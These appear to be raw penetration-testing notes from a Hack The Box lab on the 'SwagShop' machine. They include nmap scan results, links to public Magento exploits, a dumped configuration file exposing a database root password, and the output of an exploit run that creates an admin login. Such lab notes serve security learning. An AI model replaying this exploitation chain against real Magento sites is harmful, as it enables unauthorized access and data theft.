

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 88733EE53676A47FC354A61C32516E82
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

https://www.exploit-db.com/exploits/37977

https://raw.githubusercontent.com/ambionics/magento-exploits/master/magento-sqli.py

wget -m -np http://10.10.10.140/var/cache/

<config>
    <global>
        <install>
            <date><![CDATA[Wed, 08 May 2019 07:23:09 +0000]]></date>
        </install>
        <crypt>
            <key><![CDATA[b355a9e0cd018d3f7f03607141518419]]></key>
        </crypt>
        <disable_local_modules>false</disable_local_modules>
        <resources>
            <db>
                <table_prefix><![CDATA[]]></table_prefix>
            </db>
            <default_setup>
                <connection>
                    <host><![CDATA[localhost]]></host>
                    <username><![CDATA[root]]></username>
                    <password><![CDATA[fMVWh7bDHpgZkyfqQXreTjU9]]></password>
                    <dbname><![CDATA[swagshop]]></dbname>
                    <initStatements><![CDATA[SET NAMES utf8]]></initStatements>
                    <model><![CDATA[mysql4]]></model>
                    <type><![CDATA[pdo_mysql]]></type>
                    <pdoType><![CDATA[]]></pdoType>
                    <active>1</active>
                </connection>
            </default_setup>
        </resources>
        <session_save><![CDATA[files]]></session_save>
    </global>
    <admin>
        <routers>
            <adminhtml>
                <args>
                    <frontName><![CDATA[admin]]></frontName>
                </args>
            </adminhtml>
        </routers>
    </admin>
</config>

mysql
root:fMVWh7bDHpgZkyfqQXreTjU9

tried:
admin:123123
root:fMVWh7bDHpgZkyfqQXreTjU9

kali@kali:~/htb/boxes/swagshop/10.10.10.140$ /usr/bin/python2 /home/kali/htb/boxes/swagshop/10.10.10.140/37977.py
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in a future release.
WORKED
Check http://10.10.10.140/admin with creds forme:forme

Magento ver. 1.9.0.0

Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution php/webapps/37811.py

mechanize._form_controls.AmbiguityError: more than one control matching name 'login[username]'

http://10.10.10.140/app/etc/local.xml

